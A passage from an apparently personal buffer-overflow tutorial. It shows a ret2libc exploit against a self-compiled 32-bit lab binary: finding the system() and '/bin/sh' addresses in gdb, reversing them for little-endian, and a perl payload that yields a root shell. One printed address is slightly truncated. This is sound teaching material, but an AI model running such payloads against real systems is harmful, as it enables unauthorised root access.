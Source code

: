     @gef➤  q
    

We calculate the address by taking the start address of `/usr/lib/libc-2.26.so` and add the offset of the string. I like to use `printf` for this. If you use printf in gdb, you have to add `shell` before the command so gdb doesn't try to interpret it as one it provides. Same applies to any shell command you want to run in gdb.

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒  printf "0x%x\n" $((0xf7deb000 + 0x16a23e))  
    0xf7f5523e
    

To verify the address is correct, we can evaluate it in gdb, and see what string resides there. It should be '/bin/sh'.

    @gef➤  x/s 0xf7f5523e
    0xf7f5523e:	"/bin/sh"
    

And now, we just need the address of `system`.

    @gef➤  p system
    $1 = {<text variable, no debug info>} 0xf7e2c540 <__libc_system>
    
    @gef➤  q
    

Because I'm on a machine with an Intel processor and I compiled the binary for 32 bit systems, the addresses we found need to be reversed to conform with little-endian notation. If you have a processor that enforces little-endian notation, you will find yourself doing this often. I wrote this [script](https://gist.github.com/selftaught/5ba8e942f68ae38719243de8d07bcaea) that takes a memory address and reverses it.

Reverse system address

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒  raddr -a 0xf7e2c540
    \x40\xc5\xe2\xf7
    

Reverse "/bin/sh" string address

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒  raddr -a 0xf7f5523e
    \x3e\x52\xf5\xf7
    

And for the return address, we can use anything for the time being.

    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master 
    ⇒   raddr -a 0xdeadc0de
    \xde\xc0\xad\xd
    

We modify the command we ran earlier, adding the reversed addresses onto the end of the payload.

    #
    # [      260 x "A" characters      ][  system() address  ][ random address ][ '/bin/sh' address ]
    #
    th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
    ⇒  bin/sof $(perl -e 'print "A" x 260 . "\x40\xc5\xe2\xf7" . "\xde\xc0\xad\xde" . "\x3e\x52\xf5\xf7"')
    @sh-4.4# whoami
    root
    @sh-4.4# exit
    exit
    [1]    9121 segmentation fault  bin/sof 
    
